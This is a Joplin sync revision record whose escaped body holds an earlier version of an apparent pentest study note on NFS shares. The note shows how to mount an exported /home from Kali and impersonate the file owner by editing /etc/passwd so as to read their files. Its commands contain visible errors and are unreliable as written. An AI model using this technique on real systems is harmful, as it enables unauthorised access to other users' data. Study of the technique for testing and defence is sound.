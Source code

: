 id: 926371c941ff41dfad6afdc00056e36d
parent_id: 
item_type: 1
item_id: ce65a99c577648619d1c37859b233a7f
item_updated_time: 1646016691568
title_diff: "[{\"diffs\":[[1,\"0516b7b18265435e8a0875fbc893c8e2\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 0516b7b18265435e8a0875fbc893c8e2\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: e478cc461e0b415897ffe201f14beb44\\\r\\\nitem_updated_time: 1642669113417\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"NFS with different user permission\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":34}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"This case -- /home is being shared, and can be accessed by mounting it on our kali machine.\\\\\\\\\\\\\n\\\\\\\\\\\\\nTo do so:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> mkdir home;\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo mount -I nolock $IP/home ~/home/;\\\\\\\\\\\\\n\\\\\\\\\\\\\n<ins>**<ins>-nolock will disable file locking</ins>**</ins>\\\\\\\\\\\\\n\\\\\\\\\\\\\nIf we try to view files within that mounted folder, there won't be any permissions granted\\\\\\\\\\\\\n\\\\\\\\\\\\\nWhat we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file\\\\\\\\\\\\\n\\\\\\\\\\\\\n> Sudo adduser pwn; sudo sed 0u 0e 's/$Created\\\\\\\\\\\\\\\\_UUID/$permission\\\\\\\\\\\\\\\\_UUID/g' /etc/passwd; su pwn; cat $file\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":536}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"e478cc461e0b415897ffe201f14beb44\\\",\\\"parent_id\\\":\\\"27b595c9aae647aba407fed241a81f90\\\",\\\"latitude\\\":\\\"0.00000000\\\",\\\"longitude\\\":\\\"0.00000000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":0,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-20T09:03:35.064Z\\\r\\\ncreated_time: 2022-01-20T09:03:35.064Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1554}]"
metadata_diff: {"new":{"id":"ce65a99c577648619d1c37859b233a7f","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016691555,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.363Z
created_time: 2022-02-28T02:54:21.363Z
type_: 13